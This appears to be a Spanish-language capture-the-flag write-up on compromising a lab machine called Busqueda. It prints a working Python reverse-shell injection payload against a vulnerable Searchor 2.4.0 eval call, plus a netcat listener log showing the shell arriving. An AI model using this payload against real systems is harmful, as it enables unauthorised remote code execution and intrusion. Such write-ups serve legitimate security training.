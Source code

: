 ## Vulnerabilidades y Explotación

Acto seguido entramos a mano a enumerar la web.
![Página Principal Searcher](https://github.com/mariioaseenjo/mariioaseenjo.github.io/assets/89775325/0c37346f-6e17-4f30-83da-fd8a325faaf6)
Esto es la página principal del servidor y en ella encontramos una cosa muy interesante que no descubrimos a menos que nos fijemos en el pié de página donde encontraremos el nombre y la versión de lo que parece el motor de busqueda que usa esta máquina.

Powered by "Flask" and "Searchor 2.4.0"

Bueno aquí agradecemos a los desarrolladores que con toda su buena intención nos querían dejar clara hasta la versión del motor por añadirla en el código de la página.

A raíz de encontrar el motor que utiliza, lo buscamos y no tardamos en encontrar información acerca de las vulnerabilidades que tiene.

Esta versión hace una mala implementación del metodo "eval" en su código fuente, por lo cual se obtiene ejecución arbitraria de código, dicha vulnerabilidad es corregida en la versión 2.4.2.

A partir de aquí me he dedicado a buscar algún PoC disponible publicamente, afortunadamente encontr [este repositorio de GitHub](https://github.com/jonnyzar/POC-Searchor-2.4.2) el cual nos repite lo que acabo de describir en el parrafo anterior aunque también nos extrae la parte del codigo vulnerable que incluye el metodo "eval" y nos indica que si la consulta no se depura de manera correcta nos conduce a un RCE, que es justo lo que nosotros queremos, y nos propone usar una sentencia en python la cual me parece que cuadra con nuestro caso como hemos mencionado arriba, por lo cual no perdemos tiempo en abrir un listener en mi máquina atacante y configurar la sentencia siguiente:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.38',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```
Indicando mi dirección de atacante y el puerto de escucha en el cual tengo el listener preparado, si probamos a enviar esta data como parte del formulario que hay en la página principal.... Pa dentro!

```
root@kali:~/Desktop/HTB/Machines/Busqueda/exploits# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.11.208] 57094
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

## Escalada de Privilegios

Lo primero habiendo obtenido acceso a la máquina va a ser tratar nuestra TTY, para ello confirmamos que se usa python3 a nivel de sistema y procedemos a ejecutar un tratamiento con python directamente invocando una shell interactiva, saldremos de la reverse shell dejandola en segundo plano con `Ctrl+Z` y con stty configuraremos el output para que no se nos salga de la reverse shell aun metiendo `Ctrl+C` lo cual sin estos pasos conduciría a una salida de la shell lo cual no nos interesa nada, después configuramos la variable de entorno TERM y ya lo tendriamos de momento.
